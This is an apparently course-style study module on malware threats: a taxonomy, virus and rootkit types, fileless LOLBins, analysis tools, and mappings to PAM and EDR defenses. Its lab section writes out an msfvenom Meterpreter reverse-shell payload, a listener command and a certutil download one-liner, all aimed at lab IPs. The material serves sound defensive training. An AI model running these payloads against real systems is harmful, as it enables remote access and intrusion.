


# Module 07 — Malware Threats

> **One-liner:** the taxonomy and lifecycle of malicious code — viruses, worms, trojans, ransomware, rootkits, fileless malware, and APTs — plus how it's built, delivered, hidden, and analyzed. As a PAM/sysadmin, your angle is that most malware needs *privilege* and *persistence*; the controls you run (least privilege, allow-listing, EDR, tiering) are exactly what breaks the chain.

> **📚 Study companions:** [Facts sheet](facts.md) · [Practice questions](practice-questions.md) · [Flashcards (Anki)](flashcards.csv) · [Lab walkthrough](lab-walkthrough.md)

## Exam focus

- The **malware categories** and the precise differences between them: virus vs. worm vs. trojan, plus ransomware, rootkit, backdoor, keylogger, spyware, adware, botnet, PUA/PUP, fileless.
- **Malware components / distribution kit**: dropper, downloader, exploit, injector, obfuscator, packer, crypter, payload, malicious code.
- **Virus phases** (infection → execution) and **virus types** (boot sector, macro, polymorphic, metamorphic, encrypted, cavity, multipartite, stealth/tunneling).
- **Trojan concepts**: RAT, covert channels, wrappers/binders, ports commonly used, exploit kits.
- **Rootkit types** by where they hide (kernel, user, boot/bootkit, hypervisor, firmware/hardware).
- **Fileless / LOLBins** and living-off-the-land — why it evades signature AV.
- **APT lifecycle** (the "advanced persistent threat" chain).
- **Malware analysis**: static vs. dynamic, sandboxing, disassembly, and the safe-lab requirement.
- **Detection approaches**: signature, heuristic/behavioral, integrity checking; and **IoCs**.

## Key concepts

### The one distinction the exam always tests

| Type | Needs a host file? | Self-replicates? | User action to spread? |
|---|---|---|---|
| **Virus** | Yes (attaches to a file/program) | Yes | Usually (run the infected file) |
| **Worm** | No (standalone) | Yes | No — spreads over the network by itself |
| **Trojan** | No (poses as legit software) | No | Yes (user runs it) |

> Memory hook: **worm = wire** (spreads itself over the network), **virus = vessel** (rides a host file), **trojan = trick** (you install it yourself).

### Malware components (the "distribution kit")



- **Dropper** carries/installs the malware; **downloader** fetches later stages from the internet.
- **Packer/crypter/obfuscator** defeat static signatures by compressing/encrypting the binary.
- **Injector** loads code into another process; **payload** is the part that does the damage.

### Virus types (know them on sight)

| Type | Trick |
|---|---|
| Boot sector | Infects MBR/VBR, loads before the OS |
| Macro | Lives in Office document macros (VBA) |
| Polymorphic | Mutates its **encrypted body**; decryptor changes each time |
| Metamorphic | Rewrites its **own code** entirely each generation (no static signature) |
| Encrypted | Body encrypted, constant decryptor (weaker than polymorphic) |
| Cavity (spacefiller) | Hides in empty space of a file so size doesn't change |
| Multipartite | Infects both boot sector **and** files |
| Stealth / tunneling | Intercepts AV/OS calls to hide changes |

### Rootkits — classified by where they hide

| Level | Example | Detection difficulty |
|---|---|---|
| User-mode | Hooks user API (DLL injection) | Easier (EDR sees it) |
| Kernel-mode | Loads a malicious driver | Hard |
| Bootkit | Infects bootloader/MBR/UEFI | Very hard (loads first) |
| Hypervisor (virtual) | Runs the OS inside a rogue VM | Very hard |
| Firmware / hardware | BIOS/UEFI, device firmware | Survives reinstall |

### Fileless malware / LOLBins

Runs in memory using **trusted, signed system binaries** ("living off the land") — `powershell.exe`, `wmic.exe`, `mshta.exe`, `rundll32.exe`, `regsvr32.exe`, `certutil.exe`. Nothing malicious touches disk, so signature AV has little to match. Detection shifts to **behavior** (a PAM/EDR concern): why is a service account spawning PowerShell that base64-decodes and beacons out?

### APT lifecycle



An **APT** is defined by *stealth + persistence + a funded, goal-driven actor*, not by a single technique.

## Key tools

| Tool | Purpose | Reference |
|---|---|---|
| VirusTotal | Multi-engine reputation/IoC lookup | https://www.virustotal.com/ |
| Cuckoo / CAPE Sandbox | Dynamic (behavioral) malware analysis | https://github.com/kevoreilly/CAPEv2 |
| REMnux | Linux distro for malware reverse engineering | https://remnux.org/ |
| FLARE VM | Windows RE/analysis toolkit | https://github.com/mandiant/flare-vm |
| Ghidra | Disassembler / decompiler (static) | https://ghidra-sre.org/ |
| PEStudio / pefile | PE header & import inspection (static) | https://www.winitor.com/ |
| Process Monitor / Autoruns (Sysinternals) | Live behavioral + persistence review | https://learn.microsoft.com/en-us/sysinternals/ |
| YARA | Pattern rules for classifying malware | https://virustotal.github.io/yara/ |

## Commands & techniques (lab-ready)

> ⚠️ **Only detonate real malware in an isolated, snapshotted, no-network (or fake-network) VM.** For this repo's lab, generate a *benign test* payload with msfvenom against your own Metasploitable/Windows target — never a live sample on your host. See [`../../labs/`](../../labs/).

```bash
# --- Static triage of a suspicious PE (safe: no execution) ---
sha256sum sample.bin                       # hash → look up on VirusTotal
file sample.bin                            # type / packer hints
strings -n 8 sample.bin | less             # URLs, IPs, commands, mutex names
python3 -c "import pefile,sys;pe=pefile.PE(sys.argv[1]);print([e.dll for e in pe.DIRECTORY_ENTRY_IMPORT])" sample.bin

# --- Build a benign trojan/backdoor payload for YOUR lab target ---
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f exe -o payload.exe
# start the listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.56.10; set LPORT 4444; run"

# --- Classify with a YARA rule ---
yara myrule.yar sample.bin

# --- LOLBin behavior to detect (log this, don't fear it) ---
# certutil abused as a downloader — a classic detection signature:
certutil.exe -urlcache -split -f http://192.168.56.10/x.txt out.txt
```

Common trojan/backdoor default ports to recognize: **31337** Back Orifice, **12345/12346** NetBus, **27374** Sub7, **1080/3128** proxy/SOCKS abuse, **6660-6669** IRC C2. Beaconing over **443** is now the norm precisely *because* it blends in.

## Lab exercise

1. **Static-only triage:** hash the `payload.exe` you built, run `strings` and a `pefile` import dump, and note the network indicators. Submit the *hash* (not the file) to VirusTotal and read the behavior tab.
2. **Detonate safely:** run `payload.exe` on your isolated Windows lab VM with the multi/handler listening. Capture the callback. In another window, run **Autoruns** and **Procmon** and find the process + any persistence it created.
3. **Make it fileless:** run the `certutil` downloader one-liner and confirm your EDR/Sysmon logs it even though nothing "malicious" was on disk.
4. **Break the chain:** enable an allow-list (WDAC/AppLocker) rule that blocks unsigned exes from `%TEMP%`, then re-run — the drop fails. **You just demonstrated the control.**

**What you should observe:** signature tools care about the *file*; the durable defenses (allow-listing, least privilege, behavioral EDR) care about the *action*. Fileless malware exists to attack the first and is caught by the second.

## Defender & PAM mapping

| Attack | Detection signal | Control / PAM lever |
|---|---|---|
| Trojan / RAT install | New autorun, outbound beacon, rare parent-child (Office→PowerShell) | **App allow-listing** (WDAC/AppLocker), least privilege (no local admin), EDR |
| Ransomware | Mass file rename/encrypt, shadow-copy deletion (`vssadmin delete`) | Immutable/offline backups, **JIT admin** so encryptor lacks rights, canary files, network segmentation |
| Rootkit / bootkit | Integrity mismatch, unsigned driver load, Secure Boot fail | Secure Boot + measured boot, driver block-list, HVCI, tamper-protected EDR |
| Fileless / LOLBins | Encoded PowerShell, LOLBin spawning from a service acct | Script-block logging, **constrained language mode**, ASR rules, remove standing admin |
| Botnet / C2 beacon | Periodic outbound to rare domain/IP, JA3 anomalies | Egress filtering + proxy, DNS monitoring, block known C2 |
| Persistence (service/task/run key) | New service, scheduled task, Run key | Change control, least privilege, Autoruns baselining |
| Credential-stealing payload | LSASS access, keylogger hooks | Credential Guard, tiering, **vault + rotate** privileged creds |

> **PAM playbook for this module:** the single highest-value control against malware is **removing standing local-admin rights** — most droppers, rootkits, and ransomware need privilege to install and persist. Pair that with **allow-listing**, **JIT elevation** (so even admins hold rights only briefly), and **immutable backups** for ransomware resilience. Full mapping in [`../../defender-pam/attack-to-control-matrix.md`](../../defender-pam/attack-to-control-matrix.md).

### 🔐 PAM engineering deep-dive (CyberArk)

Malware is where **EPM** earns its keep: most droppers, ransomware, and credential stealers need local admin to install and persist — take that away and the payload runs as a powerless user, if it runs at all.

| This module's attack | CyberArk control | Component |
|---|---|---|
| Trojan / RAT / dropper install & persistence | Remove local admin + application control (default-deny) | EPM |
| Ransomware | Ransomware protection + least privilege | EPM |
| Credential-stealing payload (LSASS) | Credential-theft blocking | EPM |
| Fileless / LOLBins | App control / greylisting of interpreters | EPM |

**Detection (privileged lens):** 4688 + 4104 for encoded PowerShell, Sysmon 10 for LSASS access, Sysmon 3/22 for C2 — see [`../../defender-pam/detection-engineering.md`](../../defender-pam/detection-engineering.md).

**Engineering note:** EPM's **default-deny application control + credential-theft protection**, combined with **no standing local admin**, is the single biggest anti-malware lever a PAM engineer controls — it breaks the install/persist step the whole malware taxonomy in this module depends on.

> Go deeper: [CyberArk mapping](../../defender-pam/cyberark-attack-mapping.md) · [attack→control matrix](../../defender-pam/attack-to-control-matrix.md)

## Exam tips & gotchas

- **Worm self-propagates over the network; virus needs a host file; trojan needs the user to run it.** This three-way is asked constantly.
- **Polymorphic** changes its *encrypted form each time*; **metamorphic** rewrites its *actual code*. Metamorphic is the harder-to-signature one.
- A **dropper** installs malware already inside it; a **downloader** fetches it from the internet — don't swap them.
- **Fileless** ≠ "no impact" — it runs in memory via trusted binaries; it evades *signature* AV, not *behavioral* detection.
- **Static analysis = don't run it** (strings, headers, disassembly). **Dynamic analysis = run it in a sandbox** and watch behavior.
- A **rootkit** hides presence/privilege; a **backdoor** provides re-entry — a rootkit may *contain* a backdoor but they're not synonyms.
- **APT** is about persistence + a determined funded actor, not a specific tool.

## Sources

- MITRE ATT&CK — Software / malware behaviors: https://attack.mitre.org/software/
- MITRE ATT&CK — Ingress Tool Transfer (T1105): https://attack.mitre.org/techniques/T1105/
- MITRE ATT&CK — Signed Binary Proxy Execution / System Binary Proxy (T1218): https://attack.mitre.org/techniques/T1218/
- CISA — Ransomware guidance (StopRansomware): https://www.cisa.gov/stopransomware
- LOLBAS project (living-off-the-land binaries): https://lolbas-project.github.io/
- Microsoft — Windows Defender Application Control (WDAC): https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/wdac
- YARA documentation: https://yara.readthedocs.io/

---
### 📝 My lab log (fill in)
| Date | Sample / payload | Analysis (static/dynamic) | Result / IoCs |
|---|---|---|---|
|  |  |  |  |
